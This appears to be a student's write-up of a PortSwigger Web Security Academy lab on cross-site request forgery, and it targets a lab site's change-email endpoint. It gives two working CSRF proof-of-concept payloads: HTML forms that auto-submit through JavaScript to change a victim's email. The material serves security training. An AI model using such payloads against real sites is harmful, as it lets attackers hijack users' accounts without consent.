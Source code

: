 # CSRF Vulnerability

Afte Logging with the ```username:password``` given, we surf to change email page! when looking into the request, we check that there's no verification before submiting the request! means we can send to a target the url with the new email inside the url using ```POST``` request.

![****](/PortSwigger/Academy/PortSwigger/Labs/CSRF/Screenshots/cssrf1.PNG)

## Let generate some Payloads!

CSRF PoC Generator
	- https://security.love/CSRF-PoC-Genorator/

```php
﻿<html>
<form enctype="multipart/form-data" method="POST" action="X.web-security-academy.net/my-account/change-email">
	<table>
		<tr>
			<td>email</td>
			<td><input type="text" value="just@aa.aa" name="email"></td>
		</tr>
	</table>
		<input type="submit" value="https://ac9f1f6a1f9ccdd0c06604330076008b.web-security-academy.net/my-account/change-email">
	</form>
</html>
<script>
	document.forms[0].submit();
</script>
```

Here's another payload!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```
